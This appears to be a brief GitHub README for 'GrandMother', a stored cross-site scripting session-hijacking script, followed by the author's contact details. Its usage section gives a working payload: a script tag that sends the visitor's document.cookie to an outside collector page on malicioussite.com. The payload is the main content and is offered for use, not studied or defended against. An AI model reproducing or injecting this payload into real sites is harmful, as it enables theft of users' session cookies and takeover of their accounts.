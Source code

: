 # GrandMother
<b>Session hijacking script from Cross-Site Scripting (XSS) Stored.</b>
# Use:
<code><script>location.href="http://malicioussite.com/grandmother.php?cookie="+document.cookie</script></code>
# Contato:
- Twitter: @samueltux
- E-mail: 0x53oficial@gmail.com
